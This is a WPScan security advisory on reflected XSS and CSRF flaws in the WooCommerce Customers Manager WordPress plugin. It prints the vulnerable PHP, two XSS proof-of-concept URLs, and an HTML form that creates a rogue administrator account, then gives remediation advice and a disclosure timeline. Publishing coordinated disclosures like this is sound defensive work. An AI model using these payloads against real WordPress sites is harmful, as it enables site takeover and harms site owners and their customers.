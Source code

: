 ```yaml
---
layout: post
title: "WooCommerce Customers Manager WordPress Plugin - Multiple Security Vulnerabilities"
---
```


## Introduction

A member of the WPScan research team discovered two security vulnerabilities within the premium [WooCommerce Customers Manager](https://codecanyon.net/item/woocommerce-customers-manager/10965432) WordPress plugin, versions less than 26.6.

The following two vulnerabilities were identified and added to our [WordPress vulnerability database](https://wpscan.com):

- [Authenticated Reflected Cross-Site Scripting](https://wpscan.com/vulnerability/ad9dd88c-7ae8-41ac-a0d7-469e146f7817) - CVSS: [7.1 (High)](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:L)

- [Arbitrary User Account Creation/Update via CSRF](https://wpscan.com/vulnerability/10e2cb9d-7285-4d85-923b-bc1ba97bd51a) - CVSS: [8.8 (High)](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H)

## Technical Details

While checking if a reported [privilege escalation](https://wpscan.com/vulnerability/126143e0-b0cc-4517-862e-3ac557db744f) vulnerability was properly fixed, it was identified that the issue was still exploitable via a Cross-Site Request Forgery (CSRF) attack. An attempted fix for a second security issue, an Authenticated Cross-Site Scripting(XSS) vulnerability, was also found to not be sufficient, still allowing the attack.

At WPScan we work closely with plugin authors to ensure the fixes that they implement are done correctly, to ensure that our users are kept safe.

### Authenticated Reflected Cross-Site Scripting (XSS)

The `wccm_customers_ids` and `wccm_customers_emails` parameters were output in `href` attributes, after being sanitised with the `sanitize_text_field()` function, which is not appropriate for such case, as payload such as `' injected-attribute=value` will still be injected.

In `classes/admin/WCCM_CustomerGuestList.php`
```php
<h2 class="nav-tab-wrapper">
  <a class='nav-tab' href='?page=woocommerce-customers-manager<?php if($this->filter_by_product_id >0) echo '&filter-by-product='.$this->filter_by_product_id; if(isset($_REQUEST['wccm_customers_ids'])) echo '&wccm_customers_ids='.sanitize_text_field($_REQUEST['wccm_customers_ids']);  if(isset($_REQUEST['wccm_customers_emails'])) echo '&wccm_customers_emails='.sanitize_text_field($_REQUEST['wccm_customers_emails']); echo '&wccm_already_encoded=yes'; ?>'>Registered</a>
  <a class='nav-tab nav-tab-active' href='?page=woocommerce-customers-manager&action=wccm-guests-list<?php if($this->filter_by_product_id >0) echo '&filter-by-product='.$this->filter_by_product_id; if(isset($_REQUEST['wccm_customers_ids'])) echo '&wccm_customers_ids='.sanitize_text_field($_REQUEST['wccm_customers_ids']); if(isset($_REQUEST['wccm_customers_emails'])) echo '&wccm_customers_emails='.sanitize_text_field($_REQUEST['wccm_customers_emails']);?>'>Guests</a>
</h2>
```

#### Proof of Concept (PoC)

Log on to the blog as administraor and open the below URLs:

- https://example.com/wp-admin/admin.php?page=woocommerce-customers-manager&action=wccm-guests-list&wccm_customers_ids=%27+style%3Danimation-name%3Arotation+onanimationstart%3Dalert%28%2FXSS-ids%2F%29+b%3D%27
- https://example.com/wp-admin/admin.php?page=woocommerce-customers-manager&action=wccm-guests-list&wccm_customers_emails=%27+style%3Danimation-name%3Arotation+onanimationstart%3Dalert%28%2FXSS-emails%2F%29+b%3D%27

### Arbitrary User Account Creation/Update via CSRF

The `upload_csv` AJAX action, available to authenticated users, did not have any CSRF check, allowing attackers to make logged in users with the `manage_woocommerce` capability (by default administrator) import arbitrary accounts. This could lead to rogue administrator accounts to be created and the blog being compromised.

In `classes/admin/WCCM_CustomerImport.php`
```php
public function __construct()
{
  add_action( 'wp_ajax_upload_csv', array( &$this, 'process_csv_upload_ajax' ) );
}
function process_csv_upload_ajax()
{
  if(!current_user_can('manage_woocommerce'))
    wp_die();

  $csv_array = explode("<#>", $_POST['csv']);
  $this->process_uploaded_file($csv_array);
  [...]
}
```

#### Proof of Concept (PoC)

Log on to the blog, as a user with the `manage_woocommerce` capability (by default administrator), and open the HTML file below:

```
<html>
  <body>
    <form action="https://example.com/wp-admin/admin-ajax.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="action" value="upload_csv" />
      <input type="hidden" name="send-notification-email" value="no" />
      <input type="hidden" name="csv" value='ID","Password","Role","Login","Email"<#>"","Passw0rd","administrator","admin-attacker","admin-attacker@localhost.org"' />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

This will create a new administrator account, with the `admin-attacker` username.

## Remediation

- Proplerly sanitise, validate and escape user inputs (the [esc_attr()](https://developer.wordpress.org/reference/functions/esc_attr/) WP function should be used to escape output in attributes)
- Adds a CSRF check to the `process_csv_upload_ajax()` method to prevent CSRF attacks
  - https://developer.wordpress.org/reference/functions/wp_create_nonce/
  - https://developer.wordpress.org/reference/functions/wp_verify_nonce/

## Timeline

- March 11th, 2021 - Improper fixes identified and confirmed. Vendor contacted via http://www.domenicolagudi.com/#contact
- March 16th, 2021 - No response from vendor, escalated to Envato.
- March 17th, 2021 - v26.6 released, fixing the issues (confirmed on March 30th via source code provided by the vendor).
- March 30th, 2021 - Vulnerabilities published on wpscan.com and sent out to our users.
- April 8th, 2021 - This blog post released.
